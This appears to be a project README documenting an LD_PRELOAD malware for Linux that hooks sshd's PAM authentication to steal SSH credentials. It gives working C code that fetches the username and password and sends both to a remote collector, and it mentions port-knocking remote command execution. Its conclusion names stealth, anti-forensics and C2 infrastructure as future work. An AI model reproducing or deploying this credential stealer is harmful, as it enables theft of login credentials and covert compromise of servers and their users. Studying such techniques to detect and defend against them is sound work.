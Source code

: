 # LD_PRELOAD-Based SSH Credential Stealer Documentation

## Introduction
This document details our thought process, hypotheses, and steps taken to implement a malware using the `LD_PRELOAD` technique to extract SSH credentials (username/password). The project was conducted in an assumed breach scenario, initially with root privileges.

## Project Goals
The main objectives of this project were:
- To use `LD_PRELOAD` to hook into SSH authentication functions and extract credentials.
- To investigate and manipulate authentication processes, specifically targeting `pam_authenticate`.
- To introduce a port-knocking mechanism for remote command execution.
- To find a creative way to make a specific file unopenable.

## Thought of thoughts and Initial Exploration

### Overwriting Functions
Our first approach was to overwrite the `read()` function, as it is often used for input handling, but we quickly pivoted to a more direct method.

### Debugging and Exploration
To understand how authentication worked, we ran:
```bash
sudo /usr/sbin/sshd -D -d -e
```
This allowed us to inspect SSH behavior and pinpoint where credentials were processed.

### Investigating PAM Authentication
Given that SSH authentication uses PAM (Pluggable Authentication Module), we examined `pam_authenticate` and specifically:
```c
pamh->handlers.conf.authenticate;
```
We hypothesized that hooking into `pam_authenticate` would let us extract usernames and passwords directly.

### Testing LD_PRELOAD Hook
We created an `LD_PRELOAD` shared object to intercept function calls. Instead of using `printf`, we used `stderr` or `perror` to avoid detection (and because it was the only way to print tbh 😅🤫).

## Implementation

### Extracting Username
We implemented a function to retrieve the SSH username using `pam_get_item`:
```c
char *get_username(pam_handle_t *pamh) {
    char *username = NULL;
    if (pam_get_item(pamh, PAM_USER, (const void **)&username) == PAM_SUCCESS && username) {
    } else {
        perror("Failed to retrieve username");
    }
    return username;
}
```

### Extracting Password
For password retrieval, we hooked into `sshpam_passwd_conv`:
```c
char *get_password(pam_handle_t *pamh) {
    struct pam_conv *conv;
    if (pam_get_item(pamh, PAM_CONV, (const void **)&conv) == PAM_SUCCESS && conv) {
        const struct pam_message msg = {
            .msg_style = PAM_PROMPT_ECHO_OFF,
            .msg = "Password: "
        };
        const struct pam_message *msgp = &msg;
        struct pam_response *resp = NULL;
        int ret = conv->conv(1, &msgp, &resp, conv->appdata_ptr);
        if (ret == PAM_SUCCESS && resp && resp->resp) {
            char *password = strdup(resp->resp);
            free(resp->resp);
            free(resp);
            return password;
        } else {
            fprintf(stderr, "Failed to retrieve password\n");
        }
    } else {
        fprintf(stderr, "Failed to retrieve password\n");
    }
    return NULL;
}
```

### Hooking `pam_authenticate`
We replaced the original `pam_authenticate` function to intercept credentials:
```c
typedef int (*pam_authenticate_t)(pam_handle_t *, int);

int pam_authenticate(pam_handle_t *pamh, int flags) {
    static pam_authenticate_t original_pam_authenticate = NULL;
    if (!original_pam_authenticate) {
        original_pam_authenticate = (pam_authenticate_t)dlsym(RTLD_NEXT, "pam_authenticate");
        if (!original_pam_authenticate) {
            fprintf(stderr, "Error loading original pam_authenticate: %s\n", dlerror());
            exit(EXIT_FAILURE);
        }
    }
    char *username = get_username(pamh);
    char *password = get_password(pamh);
    send_credentials_client(username);
    send_credentials_client(password);
    return original_pam_authenticate(pamh, flags);
}
```

## Conclusion
This project successfully demonstrated how `LD_PRELOAD` can be used to intercept and extract SSH credentials by hooking into PAM authentication functions. Future work could focus on enhancing stealth techniques, implementing more advanced anti-forensic measures, and improving the C2 infrastructure.

The project was a great way to both exercise our `C language` skills and significantly increase our knowledge of how the `Linux` OS and it's libraries simultaneously works. 

